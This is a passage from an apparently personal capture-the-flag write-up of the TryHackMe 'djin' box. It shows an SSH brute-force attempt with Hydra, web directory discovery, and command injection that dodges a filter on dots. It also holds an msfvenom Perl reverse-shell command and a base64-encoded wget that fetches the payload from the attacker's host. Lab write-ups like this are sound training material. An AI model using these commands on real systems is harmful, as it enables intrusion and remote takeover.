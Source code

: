 ```
hack3rman@kali:~/TryHackMe/djin$ hydra ssh://10.10.146.45 -Lusers -Ppass
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-09 07:32:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 84 login tries (l:7/p:12), ~6 tries per task
[DATA] attacking ssh://10.10.146.45:22/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-09 07:32:30
```
Oh no. This doesn't work either. Let's continue to the web service then. But we gathered some info which might be of use later.

##### Web (7331)

First I look at the home page. Nothing really there. Check the source out. (always check the source :D) I have access to one of the CSS files but nothing intresting. I tried to walk in the upper dirs. Still nonthing. Try harder!

It seems `dirb` which I usually scan http(s) websites with does not support custom ports (or I haven't figured it out yet). So for now I am using OWASP ZAP with the worldlists from dirb.
The common worldlist doesn't hit anything. Let's try the big one.

Oh nice! I found 2 pages `wish` and `genie`.

Visiting `wish` looks like you can send commands over. Let's try `ls` command. Ok we are redirected to the genie webpage but with the message "The area is forbidden". Maybe we can authenticate with the credentials somehow. Lets see the source. Wait. There is some extra data there.
```
app.py
app.pyc
static
templates
```
The same data is in the redirect link. So our comand works? Let's `echo "dang. I am one step closer"`. Hmm. We get "Wrong choice of words" back. `echo 1`. Works. Let's remove the `"`. Still wrong. Let's remove `.`. Works. Apparenly I cannot use `.` in the data I send. Now my next step would be to send a curl command to download a reverse connection script and launch it. But I can't use `.`. We somehow need to avoid dots.

NOTE! At this point with all the data changes and the fact the wish page was redirecting I switched to use OWASP where I could modify the data in the **Manual Request Editor** and see the response directly. 

### Exploiting ?

Now let's try command substitution. ``cmd=echo `echo 1` ``. This works. Next step is to try base64 encoding of my `wget` command.

```
hack3rman@kali:~/TryHackMe/djin$ msfvenom -p cmd/unix/reverse_perl LHOST=10.7.0.255 LPORT=4444 -o perl.pl
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 229 bytes
Saved as: perl.pl

hack3rman@kali:~/TryHackMe/djin$ echo -n wget 10.7.0.255:8000/perl.pl | base64
d2dldCAxMC43LjAuMjU1OjgwMDAvcGVybC5wbA==

hack3rman@kali:~/TryHackMe/djin$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```